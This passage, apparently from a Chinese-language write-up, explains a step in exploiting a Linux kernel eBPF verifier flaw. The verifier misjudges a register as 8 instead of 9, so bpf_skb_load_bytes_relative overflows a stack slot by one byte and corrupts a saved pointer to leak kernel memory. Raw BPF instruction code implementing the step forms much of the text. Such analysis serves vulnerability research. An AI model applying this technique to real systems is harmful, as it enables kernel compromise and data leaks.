 ```C
				 reg->off)) {
			__mark_reg_known_zero(reg);
			reg->off = 0;
		}
		if (is_null) {
			reg->type = SCALAR_VALUE;
		}
   
    ...
}
```

接着，将 r1+8 保存到 r7 。verifier 认为 r7 值为 8 ，实际上 r7 值为 9 。再将 array 指针 r8 加上 0xE0 的值保存到 r10-8 处，之所以加上 0xE0 是为了泄露更多数据，后面会补充说明。

![](images/01.jpg)

通过 bpf_skb_load_bytes_relative 向 r10-16 写入 r7 个字节，即 9 个字节，溢出了 1 个字节。所写入的数据是可控的，可在用户态通过写入 socket 传递进内核态。在这里将控制写入数据为全零数据，即 r10-8 处的字节会被 0x00 覆盖。

![](images/02.jpg)

```C
// r7 = r1 + 8
BPF_MOV64_REG(BPF_REG_7, BPF_REG_1)
BPF_ALU64_IMM(BPF_ADD, BPF_REG_7, 8)

// r6 = r8 - 0xE0
BPF_MOV64_REG(BPF_REG_6, BPF_REG_8)
BPF_ALU64_IMM(BPF_ADD, BPF_REG_6, 0xE0)
// *(u64 *)(r10 - 8) = r6
BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_6, -8)

// 这里会将r10-16后r7个字节置零。
// r0 = bpf_skb_load_bytes_relative(r9, 0, r10-16, r7, 0)
BPF_MOV64_REG(BPF_REG_1, BPF_REG_9)
BPF_MOV64_IMM(BPF_REG_2, 0)
BPF_MOV64_REG(BPF_REG_3, BPF_REG_10)
BPF_ALU64_IMM(BPF_ADD, BPF_REG_3, -16)
BPF_MOV64_REG(BPF_REG_4, BPF_REG_7)
BPF_MOV64_IMM(BPF_REG_5, 1)
BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_skb_load_bytes_relative)
```
